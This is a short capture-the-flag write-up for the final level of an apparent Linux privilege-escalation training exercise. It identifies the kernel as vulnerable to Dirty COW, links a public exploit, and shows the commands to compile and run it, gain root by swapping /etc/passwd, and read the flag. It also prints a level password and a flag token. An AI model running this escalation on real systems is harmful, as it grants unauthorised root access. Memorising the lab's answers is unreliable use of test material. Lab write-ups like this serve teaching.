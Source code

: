 `su level14 -> 2A31L79asukciNyi8uppkEuSx`

For this last level, we have nothing in our home folder.
`find / -user flag14 2>/dev/null` doesn't find any file owned by flag14.

When we `ltrace getflag` we get "You should not reverse this", so we will not try to exploit getflag.

As it is the last level, we think the solution could be an exploit to an higher level that previously, so we will look at exploit on our Linux Kernel.

```bash
$ uname -r
3.2.0-89-generic-pae
```

This kernel is sensible to the dirtycow exploit:
`"A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system." (RH)`

We find a nice c program to exploit it `https://github.com/FireFart/dirtycow/blob/master/dirty.c`

```bash
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty
$ su firefart
$ mv /tmp/passwd.bak /etc/passwd
$ id
uid=0(root) gid=0(root) groups=0(root)
$ su flag14
$ getflag
Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
```

And it's done